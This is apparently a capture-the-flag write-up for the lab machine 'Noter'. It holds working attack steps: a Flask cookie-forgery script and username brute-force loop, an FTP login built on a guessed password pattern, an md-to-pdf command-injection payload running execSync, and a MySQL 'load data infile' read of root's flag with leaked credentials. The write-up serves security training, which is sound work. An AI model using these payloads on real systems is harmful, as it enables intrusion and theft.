


# Noter



**May 7, 2022**

Nmap scan to discover open ports and service versions.



The website uses JWT as cookie and we can abuse of this.

[https://pentestbook.six2dez.com/enumeration/webservices/flask](https://pentestbook.six2dez.com/enumeration/webservices/flask)


Finding the secret cookie using the tool:


After found a secret, we can try craft cookies using usernames until find a valid one.

```python
cat /home/bracketz/SecLists/Usernames/xato-net-10-million-usernames-dup.txt |  xargs -I % sh -c "flask-unsign --sign --cookie \"{'logged_in': True, 'username': '%', 'VIP': True}\" --secret 'secret123' --legacy" | xargs -I % sh -c "echo 'http://10.129.171.123:5000/VIP' | httpx -H 'cookie: session=%' -mc 200 -silent; echo %"
```

```python
import os
import requests
import urllib
command = 'flask-unsign --sign --cookie \"{\'logged_in\': True, \'username\': \'{}\', \'VIP\': True}\" --secret \'secret123\' --legacy'

f = open('/home/bracketz/SecLists/Usernames/xato-net-10-million-usernames-dup.txt', 'r')
URL = "http://10.129.171.123:5000/dashboard"

for user in f.readlines():
	cookie = os.popen("flask-unsign --sign --cookie \"{\'logged_in\': True, \'username\': \'"+user.replace("\n", "")+"\',\'VIP\': True}\" --secret \'secret123\' --legacy").read()
	f = urllib.request.urlopen(URL)
	#f.addheaders = [{"Cookie": "session="+str(cookie[:-1]), "Upgrade-Insecure-Requests":str(1), "Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "DNT":str(1), "Connection":"close", "Host":"10.129.171.123:5000"}]
	print(f.status)
```

```python
eyJWSVAiOnRydWUsImxvZ2dlZF9pbiI6dHJ1ZSwidXNlcm5hbWUiOiJibHVlIn0.Ynco5g.UplsI4crwTHqNszl-vto6mYDTao
```

The valid user is Blue, now we got a session with some notes to explore.


In a note there are some information that we can use to login on FTP.


Successfully FTP login:


The file tell us that the passwords must to be in the format “username@site_name!”. 

Now we can try use this format of password to login on other users.


The login on user ftp_admin in FTP works. 


Analyzing the source code: this function is vulnerable to command injection. 


JavaScript function:


Payload

```python
---js\n((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE
```

With this we can explore the vulnerability on the md-to-pdf node library, testing on local machine was possible to execute commands:


[https://github.com/simonhaenisch/md-to-pdf/issues/99](https://github.com/simonhaenisch/md-to-pdf/issues/99)

The next step is create a md file with the malicious code


After sending the machine executes successfully the command:


Reverse shell execution:


### Privilege escalation:

Login in MYSQL as root using the credentials “root:Nildogg36”, we can create a table and load of the machine files on the database. 

```jsx
create table t2 (pin varchar(50));
load data infile "/root/root.txt" into table t2 FIELDS TERMINATED BY 'n';
```

After the insertion just select the table and get the root flag.

